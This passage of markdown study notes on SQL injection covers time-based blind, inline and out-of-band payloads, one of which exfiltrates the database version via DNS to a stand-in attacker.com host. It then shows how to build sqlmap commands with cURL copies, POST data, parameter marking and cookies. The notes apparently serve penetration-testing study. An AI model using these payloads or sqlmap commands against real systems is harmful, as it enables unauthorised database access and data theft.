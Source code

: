       ```sql
      AND 1=IF(2>1,SLEEP(5),0)
      ```

    * similar to boolean-based blind SQLi, but here response time is used to differentiate between ```TRUE``` (noticeable difference in response time from usual server response) or ```FALSE``` (no difference)
  
  * Inline queries:

    * Example:

      ```sql
      SELECT (SELECT @@version) from
      ```

    * embedded query within original query
  
  * Out-of-band:

    * Example:

      ```sql
      LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
      ```

    * advanced SQLi type; ```SQLMap``` supports this through DNS exfiltration

* For help, we can refer to the [wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage), or commands ```sqlmap -h``` (basic listing) and ```sqlmap -hh``` (advanced listing).

## Building Attacks

* An easy way to setup an ```SQLMap``` request is by using the ```Copy as cURL``` feature from Developer Tools (from browser), and after pasting the command, we can replace ```curl``` with ```sqlmap```:

  ```shell
  sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
  ```

* For GET requests, usually the URL will have parameters included; for POST requests, we can use the ```--data``` flag.

* We can mark specific parameters as well. For example, if we know that a particular parameter 'uid' is prone to SQLi, we can narrow it down using ```-p uid```, or like this:

  ```shell
  sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
  ```

* For complex HTTP requests, we can use the ```-r``` flag, coupled with a request file, which can be intercepted and saved from Burp Suite.

* For specifying session/cookie values, we can use ```--cookie``` flag; alternatively, we can use the ```-H``` or ```--header``` flag.
